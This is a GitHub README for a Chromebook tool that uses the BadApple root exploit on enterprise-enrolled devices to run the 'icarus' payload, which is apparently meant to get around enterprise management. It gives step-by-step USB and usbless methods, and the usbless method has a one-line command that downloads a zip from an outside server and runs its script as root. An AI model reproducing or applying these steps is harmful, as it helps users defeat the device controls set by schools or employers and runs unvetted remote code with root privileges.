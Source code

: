 # icarus but for badapple
# UPDATED TO HAVE THE NEW ICARUS CERT
pretty straightforward process. this acts as a way to execute the icarus payload initally meant to be executed in shims. \
BadApple is an exploit to gain ACE(arbitary code execution) as root in developer mode whilst enterprise enrolled. SH1mmer does the same thing, but some boards have been keyrolled.

## steps
now, you can choose 2 different ways to carry this out.
1. requires usb, no wifi
2. usbless, requires wifi

### 1. usb method
1. from the Releases page of this repository, download the image provided, which is named `icarus_ba.img`
2. use chromebook recovery utility or balenaEtcher or dd or your preferred usb flashing tool to flash the image to a thumbdrive
3. use BadApple to obtain a shell
4. plug in the usb stick with the flashed image
5. find the usb stick identifier with `fdisk -l` 
6. mount the image with `mkdir /icarus && mount /dev/sdX /icarus`, where `X` is your usb identifier, e.g. `/dev/sda`
7. now, to execute the icarus payload, run `cd /icarus && ./icarus_ba.sh`

### 2. usbless method
1. enter miniOS
2. when the frecon screen loads, click Next
3. next, connect to an available wifi network
4. when the wifi has connected, DO NOT PROCEED. we now use BadApple to obtain a shell
5. run these commands to start the icarus payload: `cd / && curl -O cdn.fanqyxl.net/icarus_ba.zip && unzip icarus_ba.zip && cd /icarus && ./icarus_ba.sh`

## build a badapple icarus image
this is useless for the average user, only use this if you want to customize PKIMetadata or icarus_ba.sh

1. cd into the root directory of this repository
2. run `sudo ./image_create.sh`.
3. a image will be placed in the root directory of this repo called `icarus_ba.img`

it is an ext4 image that has an original size of 100MB, which is then shrinked to its minimum after adding PKIMetadata and icarus_ba.sh.

## credits
- appleflyer: finding BadApple, making the original payload
- xmb9/stella: helping with stateful detection by telling me about cgpt
- sophie: telling me about the issue with stateful detection
- kilo: making this usbless
- fanqyxl: helping by making this usbless, and for generating new icarus certs.
